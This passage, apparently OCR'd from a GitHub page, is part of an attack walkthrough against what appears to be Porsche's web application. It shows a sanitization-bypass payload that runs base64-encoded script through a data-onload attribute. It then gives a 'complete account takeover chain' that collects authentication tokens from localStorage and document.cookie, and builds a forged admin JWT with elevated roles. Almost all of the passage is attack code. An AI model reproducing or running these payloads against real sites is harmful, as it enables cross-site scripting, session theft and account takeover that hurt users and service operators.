 #### **Step 2: Bypass Sanitization**
```javascript
// Exploit wildcard attribute matching
const bypassPayload = `
<div data-malicious="innocent" 
     data-onload="eval(atob('${btoa(maliciousHTML)}'))"
     class="legitimate-content">
  Legitimate content here
</div>
`;
```

---

### **Scenario 3: Complete Account Takeover Chain**

#### **Step 1: Initial Reconnaissance**
```javascript
// Discover authentication endpoints and tokens
const discoverAuth = () => {
  const authKeys = Object.keys(localStorage).filter(key => 
    key.includes('auth') || key.includes('token') || key.includes('session')
  );
  
  const authData = {};
  authKeys.forEach(key => {
    authData[key] = localStorage.getItem(key);
  });
  
  // Also check cookies
  authData.cookies = document.cookie;
  
  return authData;
};
```

#### **Step 2: Token Manipulation**
```javascript
// Create fake admin token
const createFakeAdminToken = () => {
  const fakePayload = {
    sub: "admin_user_12345",
    email: "admin@porsche.com",
    roles: ["admin", "super_admin", "system_admin"],
    permissions: ["read:all", "write:all", "delete:all"],
    iat: Math.floor(Date.now() / 1000),
    exp: Math.floor(Date.now() / 1000) + 86400, // 24 hours
    aud: "porsche-admin-api",
    iss: "https://porsche.auth0.com/"
  };
  
  // Create fake JWT (this would need proper signing in real attack)
  const header = btoa(JSON.stringify({typ: "JWT", alg: "HS256"}));
  const payload = btoa(JSON.stringify(fakePayload));
  const signature = "fake_signature_here"; // In real attack, would need to crack/steal signing key
  
  return `${header}.${payload}.${signature}`;
};
```
